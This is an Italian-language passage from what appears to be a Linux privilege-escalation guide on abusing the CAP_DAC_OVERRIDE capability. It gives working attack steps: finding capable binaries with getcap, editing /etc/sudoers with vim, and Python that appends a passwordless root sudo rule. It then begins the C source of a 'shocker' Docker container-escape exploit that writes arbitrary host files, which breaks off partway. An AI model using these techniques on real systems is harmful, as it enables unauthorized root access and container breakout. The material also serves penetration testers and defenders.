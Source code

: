 **Esempio con binario**

In questo esempio vim ha questa capacità, quindi puoi modificare qualsiasi file come _passwd_, _sudoers_ o _shadow_:
```bash
getcap -r / 2>/dev/null
/usr/bin/vim = cap_dac_override+ep

vim /etc/sudoers #To overwrite it
```
**Esempio con binario 2**

In questo esempio, il binario **`python`** avrà questa capacità. Potresti usare python per sovrascrivere qualsiasi file:
```python
file=open("/etc/sudoers","a")
file.write("yourusername ALL=(ALL) NOPASSWD:ALL")
file.close()
```
**Esempio con ambiente + CAP_DAC_READ_SEARCH (uscita da Docker)**

Puoi controllare le capacità abilitate all'interno del contenitore docker usando:
```bash
capsh --print
Current: = cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+ep
Bounding set =cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
Securebits: 00/0x0/1'b0
secure-noroot: no (unlocked)
secure-no-suid-fixup: no (unlocked)
secure-keep-caps: no (unlocked)
uid=0(root)
gid=0(root)
groups=0(root)
```
Prima di tutto, leggi la sezione precedente che [**abusa della capacità DAC_READ_SEARCH per leggere file arbitrari**](linux-capabilities.md#cap_dac_read_search) dell'host e **compila** l'exploit.\
Poi, **compila la seguente versione dell'exploit shocker** che ti permetterà di **scrivere file arbitrari** all'interno del filesystem degli host:
```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>

// gcc shocker_write.c -o shocker_write
// ./shocker_write /etc/passwd passwd

struct my_file_handle {
unsigned int handle_bytes;
int handle_type;
unsigned char f_handle[8];
};
void die(const char * msg) {
perror(msg);
exit(errno);
}
```